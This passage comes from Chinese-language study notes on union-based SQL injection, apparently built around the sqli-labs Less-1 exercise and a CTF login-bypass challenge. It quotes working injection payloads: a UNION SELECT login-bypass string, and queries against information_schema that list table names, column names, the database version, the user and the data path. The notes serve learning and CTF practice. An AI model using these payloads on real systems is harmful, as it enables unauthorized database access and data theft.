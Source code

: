     ![image-20240514155953588](SQL注入/image-20240514155953588.png)
    即前面优先显示数据库已有信息，后面跟着显示数字表。
4. 如果正常业务的前半句**没有返回内容**（也就是查不到数据），那么就会直接返回 `select number1, ...` 的内容，**从而判断页面哪些是回显位**。
5. 联合注入还有一个作用在于**控制查询结果**。如果某些系统处理查询结果的逻辑是：从数据库中取出数据再和输入的内容进行对比时，这时通过 `union select` 来**控制查询结果和输入内容**，从而绕过登录系统的验证逻辑。举例：[GXYCTF2019]BabySQli 1，其 EXP 就是：
    `name=admi' union select 1,'admin','0cc175b9c0f1b6a831c399e269772661' #&pw=a`。控制数组的二号位以满足题目特性，控制三号位来绕过登录逻辑验证。

## 1. Less-1（字符串型）

1. `id = 1 order by 数字`。报错与不报错的交错处就是列数。

2. `group_concat()` 将查询结果拼凑成一个字符串。

3. 所有的表：information_schema.tables 这个表的 table_name 这个列的值

    `id = -1 union select 1,group_concat(table_name), 3 from information_schema.tables where table_schema=database()`

    注意：

    1. `union select` 前面是 `select` 的话不要加 `and`。
    2. 用联合查询的时候要[**传入非法值/没有数据的值**](#1. `union select` 的解释)。

4. 查当前数据库名：`database()`

    查数据库版本：`version()`

    查询当前用户：`user()`

    显示数据库所在路径：`@@datadir`

5. 表中的所有列名：information_schema.columns 这个表的 columns_name 这个列的值

    `union select 1,group_concat(column_name),3 from information_schema.columns where table_schema = database() and table_name = 'users'`
